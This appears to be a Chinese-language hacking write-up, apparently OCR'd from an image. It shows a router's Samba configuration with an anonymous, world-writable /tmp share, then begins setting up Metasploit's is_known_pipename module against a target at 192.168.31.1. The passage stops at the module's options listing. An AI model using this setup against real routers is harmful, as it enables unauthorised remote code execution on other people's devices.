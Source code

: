 ```
        deadtime = 30
        domain master = yes
        encrypt passwords = true
        enable core files = no
        guest account = nobody
        guest ok = yes
        invalid users =
        local master = yes
        load printers = no
        map to guest = Bad User
        min receivefile size = 16384
        null passwords = yes
        obey pam restrictions = yes
        passdb backend = smbpasswd
        preferred master = yes
        printable = no
        smb encrypt = disabled
        smb passwd file = /etc/samba/smbpasswd
        socket options =  SO_SNDBUFFORCE=1048576 SO_RCVBUFFORCE=1048576
        smb2 max trans = 1048576
        smb2 max write = 1048576
        smb2 max read = 1048576
        write cache size = 262144
        syslog = 2
        syslog only = yes
        use sendfile = yes
        writeable = yes
        log level = 1
        unicode = True
        max log size = 500
        log file = /tmp/log/samba.log
        server role = STANDALONE

[homes]
        comment     = Home Directories
        browsable   = no
        read only   = no
        create mode = 0750

[data]                    ***SMB_SHARE_NAME***
        path = /tmp       ***SMB_FOLDER***
        read only = no    ***具备可写权限***
        guest ok = yes    ***允许匿名***
        create mask = 0777
        directory mask = 0777
```
***具有可写权限、目录为/tmp***

## 攻击：使用metasploit
### 设置攻击参数
靶机是某厂商路由器，它的系统为mips架构，但是这个库好像对它的支持不是很好
```
show options

Module options (exploit/linux/samba/is_known_pipename):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   RHOSTS          192.168.31.1     yes       The target address range or CIDR identifier
   RPORT           445              yes       The SMB service port (TCP)
   SMB_FOLDER                       no        The directory to use within the writeable SMB share
```